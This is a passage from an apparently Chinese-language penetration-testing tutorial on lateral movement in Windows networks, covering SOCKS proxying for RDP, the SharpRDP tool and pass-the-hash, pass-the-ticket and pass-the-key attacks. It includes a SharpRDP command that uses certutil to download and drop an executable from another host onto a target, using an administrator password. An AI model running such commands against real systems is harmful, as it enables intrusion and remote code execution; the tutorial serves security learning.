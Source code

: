   
需要在目标机上传文件，由于我们本身就没有控制它，又怎么上传文件呢？臆想。。  
  
  
唯一能解决的是http隧道，但又由于流量太大不可取了。因此还是下面的socks代理比较好！  
  
  
2.socks代理  
  
  
建立socks节点后然后本机上可以使用mstsc来进行rdp连接  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU773MhJykjKkOnqziaVtNSPPU4rib9mjDURbTxibJNjdlK5wVBA0ib7Kibia2g/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7U3dyE5GXE0ZAiaLcibWIgMFeBPqUapks5Bt15E0ZnMfGZ8od5dXEdkBg/640?wx_fmt=png&from=appmsg "")  
  
##### SharpRDP  
  
  
只支持明文连接  
  
  
是一款可以不借助远程桌面GUI的情况下，通过RDP协议进行命令执行的程序  
  
  
https://github.com/0xthirteen/SharpRDP  
  
  
SharpRDP.exe computername=192.168.3.32 command="certutil -urlcache -split -f http://192.168.3.31/3232.exe c:/3232.exe" username=Administrator password=admin!@#45  
  
#### PTH&PTT&PTK  
  
  
path the hash（哈希传递攻击） 利用lm或ntlm的值进行的渗透测试（NTLM认证攻击）  
  
  
path the ticket（票据传递攻击） 利用票据凭证TGT进行渗透测试（Kerberos认证攻击）  
  
  
path the key（密钥传递攻击） 利用ekeys aes256进行的渗透测试（NTLM认证攻击）  
  
  
**逻辑思路：**  
  
  
明文传递 -> PTH -> PTT -> PTK（AES）  
  
  
关于LM和NTLM文章：  
https://y4er.com/posts/ntlm-hash-and-lm-hash/  
  
##### PTH  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7icAS4SMSPMP5hxv2w75B7DLwjOqicY0NNEV439sxCAZpx0ZxThv0ZYNA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7iae0cwa4Nibm0IzRc3HNQZ0VkiaPhT83A6dU24PnGm3Bicttjzaut6Mfxg/640?wx_fmt=png&from=appmsg "")  
  
  
利用思路：  
  
  
1.利用直接的Hash传递。这里其实就是之前所说的通过hash来进行传递，而不是明文  
  